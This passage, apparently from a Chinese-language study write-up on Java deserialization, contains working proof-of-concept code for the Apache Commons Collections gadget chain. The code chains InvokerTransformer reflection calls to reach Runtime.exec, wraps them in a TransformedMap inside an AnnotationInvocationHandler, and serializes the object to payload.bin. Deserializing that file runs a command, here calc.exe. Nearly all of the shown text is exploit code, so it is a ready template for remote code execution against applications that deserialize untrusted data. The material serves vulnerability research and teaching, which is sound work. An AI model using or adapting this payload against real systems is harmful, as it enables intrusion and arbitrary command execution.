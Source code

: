 ```java
                    // 传入Runtime类对象 反射执行getMethod获得getRuntime方法
                    new InvokerTransformer(
                            "getMethod",
                            new Class[]{String.class, Class[].class},
                            new Object[]{"getRuntime", null}
                    ),
                    // 传入getRuntime方法对象 反射执行invoke方法 得到Runtime实例
                    new InvokerTransformer("invoke",
                            new Class[]{Object.class, Object[].class},
                            new Object[]{null, null}
                    ),
                    // 传入Runtime实例 执行exec方法
                    new InvokerTransformer("exec",
                            new Class[]{String.class},
                            new Object[]{"calc.exe"})
            };

            ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

            Map innermap = new HashMap();
            innermap.put("value", "value");
            Map outermap = TransformedMap.decorate(innermap, null, chainedTransformer);
            // 构造包含恶意map的AnnotationInvocationHandler对象
            Class cl = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
            Constructor cst = cl.getDeclaredConstructor(Class.class, Map.class);
            cst.setAccessible(true);
            Object exploitObj = cst.newInstance(Target.class, outermap);

            // 序列化
            FileOutputStream fos = new FileOutputStream("payload.bin");
            ObjectOutputStream oos = new ObjectOutputStream(fos);
            oos.writeObject(exploitObj);
            oos.close();

            // 反序列化
            FileInputStream fis = new FileInputStream("payload.bin");
            ObjectInputStream ois = new ObjectInputStream(fis);
            Object result = ois.readObject();
            ois.close();
            System.out.println(result);

        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```



# 调用流程
